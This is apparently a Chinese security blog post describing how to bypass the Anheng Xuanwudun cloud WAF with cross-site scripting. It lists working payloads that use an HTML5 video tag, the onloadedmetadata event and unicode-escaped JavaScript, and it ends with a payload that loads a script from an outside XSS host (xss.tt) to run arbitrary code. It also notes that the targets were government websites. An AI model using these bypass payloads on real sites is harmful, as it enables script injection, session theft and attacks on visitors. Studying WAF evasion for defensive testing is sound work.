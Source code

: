 ```yaml
---
title: XSS bypass 安恒玄武盾
categories: WEB
tags:
  - XSS
  - bypass
abbrlink: 44024
date: 2019-06-10 16:28:05
---
```


## 起因

这个方法是去年实验室里的小伙伴发现的，而payload构造思路则来自[XSS挑战第一期Writeup](<http://www.anquan.us/static/drops/papers-894.html>)和[XSS挑战第二期Writeup](<http://www.anquan.us/static/drops/papers-938.html>).

主要是实验室有任务寻找省内政府网站漏洞,而浙江政府又与安恒有不少合作,很多网上都挂着安恒的玄武盾云WAF.

绕云waf简单的方式就是绕过cdn,找真实ip.绕cdn方法还是很多了,也有一些工具,比如我在[另一篇文章](<https://m09ic.top/posts/48529/>)收集的[fuckcdn](<https://github.com/Tai7sy/fuckcdn>)

有些时候绕不过去cdn,又存在xss漏洞.报告里要是不能验证漏洞就等于没有漏洞,那就只能硬怼玄武盾了.

漏洞已报告给安恒,但超过两个月没得到回复,那就当做厂商不承认该漏洞.

## 细节

###  测试

最近手里没网站测试了,很多东西只能靠口诉了.

先上最终payload,payload不唯一,可以有无限多种变形.

```
6666666"> <video hidden="hidden" onloadedmetadata="\u006aava\u0073cript:[1].find(\u0061lert)" src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>
```

大佬们应该一眼就看出来问题了.

最晚在今年4月份测试依旧有效..

这是玄武盾拦截的截图:

![1](1.png)

如果payload中存在`onerror=,onload=`这些事件,`<img>,<script>`这些标签或者`alert,javascript`这些敏感词,就会弹出玄武盾.

关键字过滤的还是挺全的,除了html5的新标签和新事件.

直接fuzz一下就可以发现,比如`<video>,<canvas`这些html5标签不会触发玄武盾.

html5可用标签还挺多的,如果找不到可以用我收集的[字典](<https://github.com/M09Ic/mywordlist/blob/master/html_tags.txt>).

最容易容易构造xss的标签比如`video`.

既然html5标签都没过滤,那么html5的事件99%也不会过滤.直接fuzz全部html事件.[字典在这](<https://github.com/M09Ic/mywordlist/blob/master/html_event.txt>)

很快就找到了比如:`onloadedmetadata`,不需要额外的交互,视频加载时触发,视频又是自动加载,等于打开网站即可触发.

记得把video标签加上hidden属性.不然动静太大了.

当然不仅仅`video`标签的`onloadedmetadata`事件可用,随便组合一下就有很多其他的方法.

###  绕过

虽然绕过了关键字检测,但是如果直接用`alert()`还是会触发玄武盾.

这里就需要一个2014年乌云大佬们演示过的方法了.

通过数组实例的`find()`方法,用于找出第一个符合条件的数组成员.

`find()`的参数是一个回调函数.验证漏洞用`alert`即可.

当然`alert`关键字已经被过滤了,但是这里输入点是在js代码里面,浏览器遇到js代码会调用js解释器,所以将`alert` js编码为`\u0061lert`.稍微降低下payload长度,所以只编码一个字符就可以了.

最终事件内payload为:

`find(\u0061lert)`

###  执行

发送payload:

![2](2.png)

成功执行,绕过玄武盾.

当然不能仅仅是弹窗,完整的执行任意js代码的payload类似:

```
[1].find(function(){with(`docom'|e|'nt`);;body.appendChild(createElement('script')).src='http://xss.tt/XA'})
```

在最开头的两篇文章中偷来的,手动滑稽.

中间如果有被过滤的关键字,js编码下即可.









